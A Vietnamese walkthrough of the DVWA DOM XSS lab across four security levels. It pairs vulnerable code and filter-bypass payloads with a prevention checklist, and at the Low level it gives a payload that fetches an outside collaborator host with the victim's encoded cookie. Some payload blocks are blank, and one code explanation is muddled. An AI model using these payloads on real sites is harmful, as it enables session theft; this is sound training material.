










# **DOM XSS**
## **Tổng quan**

DOM-based XSS là lỗ hổng cho phép kẻ tấn công chèn và thực thi mã độc, thường là **JavaScript**, thông qua quá trình xử lý dữ liệu ở phía trình duyệt.

Khác với Stored XSS và Reflected XSS, DOM XSS xảy ra khi mã JavaScript của trang web lấy dữ liệu không đáng tin cậy từ các nguồn như URL, query string, fragment, cookie hoặc dữ liệu người dùng nhập vào, sau đó đưa trực tiếp dữ liệu đó vào **DOM** mà không kiểm tra hoặc mã hóa an toàn.

Lỗ hổng này thường xuất hiện khi ứng dụng:

* Xử lý dữ liệu người dùng hoàn toàn ở phía client.
* Lấy dữ liệu từ các nguồn không đáng tin cậy như `location.href`, `location.search` hoặc `location.hash`.
* Đưa dữ liệu trực tiếp vào DOM.
* Sử dụng các hàm nguy hiểm như `document.write()`, `innerHTML`, `outerHTML` hoặc `eval()`.
* Không kiểm tra, giới hạn hoặc mã hóa dữ liệu đầu vào.
* Không áp dụng **Content Security Policy (CSP)** phù hợp.

Trong DOM XSS, dữ liệu độc hại thường đi từ một **source** đến một **sink** nguy hiểm:

```text
Source → JavaScript xử lý dữ liệu → Sink → Payload được thực thi
```

Payload DOM XSS thường không được lưu trên máy chủ như Stored XSS. Trong một số trường hợp, payload cũng không được gửi đến máy chủ hoặc xuất hiện trong phản hồi HTTP như Reflected XSS, mà được xử lý trực tiếp trong trình duyệt.

Thông qua DOM XSS, kẻ tấn công có thể đánh cắp thông tin phiên đăng nhập, thu thập dữ liệu, thay đổi nội dung trang, chuyển hướng người dùng hoặc thực hiện hành động dưới danh nghĩa nạn nhân.

Để phát hiện DOM XSS, cần phân tích mã JavaScript phía client, xác định các source, sink và cách dữ liệu được truyền giữa chúng.

## **Security Level**
### **Low**
#### **Cách khai thác**


Web cho ta một from để chọn các ngôn ngữ



Ta thực hiện chọn ngôn ngữ `Spanish`, khi đó trên thanh URL xuất hiện thêm một tham số `default`\
Ta thử xem source code của web



Ta thấy có đoạn code JS:
```javascript
<script>
    if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
        document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
        document.write("<option value='' disabled='disabled'>----</option>");
    }
        
    document.write("<option value='English'>English</option>");
    document.write("<option value='French'>French</option>");
    document.write("<option value='Spanish'>Spanish</option>");
    document.write("<option value='German'>German</option>");
</script>
```

Phần này có chức năng lấy giá trị từ biến `default` do người dùng chọn rồi đưa vào DOM với hàm `document.write`\
Ta thử đưa payload có chứa mã độc JS vào tham số `default`

```javascript
<script>alert('XSS')</script>
```



Kết quả là web đã thực thi lệnh và hiện lên popup\
Ta thực hiện truy xuất cookie của người dùng ra 

```javascript
<script>fetch('https://299jfoypww045xa0kc4n4ytl3c93xtli.oastify.com/steal?cookie=' + btoa(document.cookie));</script>
```



Từ kết quả của Burp Collaborator, ta đã lấy được cookie của người dùng 

#### **Phân tích mã nguồn**
Nguyên nhân gây ra lỗ hổng chính là do đoạn code lấy phần tử bên trên, nó lấy trực tiếp giá trị input của người dùng nhập vào, không qua kiểm tra hay xử lý rồi truyền vào DOM bằng hàm `document.write()`

### **Medium**
#### **Cách khai thác**




Khi ta sử dụng payload của level trước, ta có thể thấy rằng web đã thực hiện chuyển hướng ta về tham số `English` chứ không hề truyền payload vào sink\
Vậy ta thử tiến hành bypass bằng HTML encode

```javascript
&#x3c;script>alert('XSS')</script>
```



Khi sử dụng payload này, ta thấy mặc dù web đã truyền vào thẻ `<script>` nhưng nó lại filter đi thẻ đóng `</script>`, và dường như web xử lý thẻ đó dưới dạng chuỗi thông thường chứ không phải mã JS\
Vì vậy ta thử bypass bằng thẻ `` kết hợp với thuộc tính `onerror`

```html

```



Kết quả là web hiện popup, điều đó chứng tỏ rằng bộ lọc đã bị bypass

#### **Phân tích mã nguồn**
```php

<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

Phía backend ta thấy có một đoạn code PHP nhằm filter thẻ `<script>` bằng hàm `stripos()`\
Hàm này có nhiệm vụ tìm kiếm vị trí đầu tiên xuất hiện chuỗi `<script`, nếu có, nó sẽ thực hiện chuyển hướng về `?default=English`\
Logic này chỉ bypass được thẻ `<script>`, vì vậy khi ta sử dụng thẻ `` thì nó đã bị bypass

## **High**
#### **Cách khai thác**
Ở level này, khi ta thực hiện chèn payload bằng cả thẻ `<script>` và `` nhưng đều không thành công\
Nó đã bị server filter hết\
Nhưng logic code ở server side vẫn như ban đầu, tức là vẫn có lỗ hổng, mà chỉ khi gửi payload lên server mới bị bypass\
Vì vậy ta sẽ bypass bằng cách làm thế nào payload được xử lý ngay ở client mà không cần gửi dữ liệu cho server validate\
Với ý tưởng này, ta có kí tự `#`, là **URL fragment**, những dữ liệu đằng sau nó đều do JS phía client xử lý nên dùng nó có thẻ bypass

```html
#default=<script>alert(document.cookie)</script>
```



Kết quả là bộ lọc đã bị bypass, JS xử lý phía client vẫn tồn tại lỗ hổng

#### **Phân tích mã nguồn**
```php

<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

Ta thấy phía server lần này đã validate khá tốt bằng cách sử dụng **whitelist**, nếu không trong whitelist, nó sẽ bị chuyển hướng về `?default=English`

## **Impossible**
#### **Phân tích mã nguồn**
```javascript
<script>
    if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
        document.write("<option value='" + lang + "'>" + (lang) + "</option>");
        document.write("<option value='' disabled='disabled'>----</option>");
    }
        
    document.write("<option value='English'>English</option>");
    document.write("<option value='French'>French</option>");
    document.write("<option value='Spanish'>Spanish</option>");
    document.write("<option value='German'>German</option>");
</script>
```

Ta thấy được sự khác biệt duy nhất trong đoạn code này là nó đã bỏ đi hàm `decodeURI()`\
Hàm này nguy hiểm bởi vì nó encode tự động decode HTML rồi đưa input vào sink bằng hàm `document.write()`

## **Cách phòng chống DOM XSS**

* Không đưa dữ liệu người dùng trực tiếp vào `document.write()`, `innerHTML` hoặc `outerHTML`.
* Ưu tiên sử dụng `textContent`, `innerText` và `createElement()`.
* Kiểm tra dữ liệu bằng **whitelist**, chỉ cho phép các giá trị hợp lệ.
* Không tin tưởng dữ liệu từ `location.href`, `location.search`, `location.hash` hoặc cookie.
* Sử dụng `URLSearchParams` để đọc tham số URL đúng cách.
* Mã hóa dữ liệu phù hợp với ngữ cảnh trước khi đưa vào DOM.
* Hạn chế sử dụng các hàm nguy hiểm như `eval()`, `setTimeout()` và `setInterval()` với chuỗi.
* Áp dụng **Content Security Policy (CSP)** để hạn chế thực thi mã JavaScript không an toàn.
* Sử dụng thư viện làm sạch HTML như **DOMPurify** nếu bắt buộc phải hiển thị HTML từ người dùng.
* Thường xuyên kiểm tra luồng dữ liệu từ **source** đến **sink** trong mã JavaScript.


